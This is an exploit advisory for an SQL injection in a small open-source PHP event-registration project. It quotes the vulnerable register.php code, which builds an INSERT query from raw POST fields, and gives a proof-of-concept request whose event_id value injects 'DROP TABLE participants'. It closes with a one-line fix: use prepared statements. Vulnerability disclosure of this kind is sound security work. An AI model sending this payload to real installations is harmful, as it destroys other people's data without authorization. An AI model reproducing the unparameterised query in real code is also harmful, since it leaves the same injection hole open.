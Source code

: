 # Exploit Title: Event Management - SQL Injection
# Application: Event Management
# Date: 19.02.2024
# Bugs: SQL Injection 
# Exploit Author: SoSPiro
# Vendor Homepage: https://github.com/PuneethReddyHC
# Software Link: https://github.com/PuneethReddyHC/event-management
# Version:1.0
# Attack Type: Remote
# Tested on: Windows 10 64 bit Wampserver 


# About project:

helps to register an users for on events conducted in college fests with simple logic with secured way



## Vulnerability Details:

- **Application Name**: Event Management
- **Software Link**: [Download Link](https://github.com/PuneethReddyHC/event-management)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/PuneethReddyHC)



# Vulnerable code section:

# https://github.com/PuneethReddyHC/event-management/blob/master/backend/register.php#L64

<?php


// ... (other code)

if(empty($full_name)  || empty($email)  || empty($mobile)) {
    // Error messages and actions for incomplete data
} else {
    if(!preg_match($name,$full_name)){
        // Error messages and actions for invalid full name
    }

    // Additional regex checks for email and mobile format

    // Verifying mobile number length
    if(!(strlen($mobile) == 10)){
        // Error message and action for invalid mobile number length
    }

    // Database insertion operation
    $sql = "INSERT INTO `participants` 
            (`p_id`,`event_id`, `fullname`, `email`, 
             `mobile`,  `college`, `branch`) 
            VALUES (NULL,'$event_id', '$full_name',  '$email', 
             '$mobile', '$college', '$branch')";
            
    if(mysqli_query($con,$sql)){
        // Successful registration message
        echo "register_success";
        echo "<script> location.href='index.php'; </script>";
        exit;
    }
}

// ... (other code)
?>



# Vulnerability Description:

The code in register.php is vulnerable to SQL injection, allowing an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. Additionally, the code lacks proper input validation and sanitization, making it susceptible to various forms of attacks such as cross-site scripting (XSS) and potential security risks.



# Proof of Concept (PoC):

SQL Injection:

The vulnerability can be exploited by an attacker by manipulating the input parameters. For example, the event_id parameter is directly used in the SQL query without proper validation or parameterization:

An attacker can manipulate the event_id parameter in the HTTP request to inject malicious SQL code.

PoC:


POST /event-management-master/backend/register.php HTTP/1.1
Host: localhost

event_id=1'; DROP TABLE participants; --

This could result in a SQL query like:

INSERT INTO `participants` (`p_id`,`event_id`, `fullname`, `email`, `mobile`,  `college`, `branch`) 
VALUES (NULL,'1'; DROP TABLE participants; --', 'test', 'test@gmail.com', '0555555555', 'asd', 'qwe')

To mitigate this, use prepared statements or parameterized queries to ensure proper sanitization of user inputs.

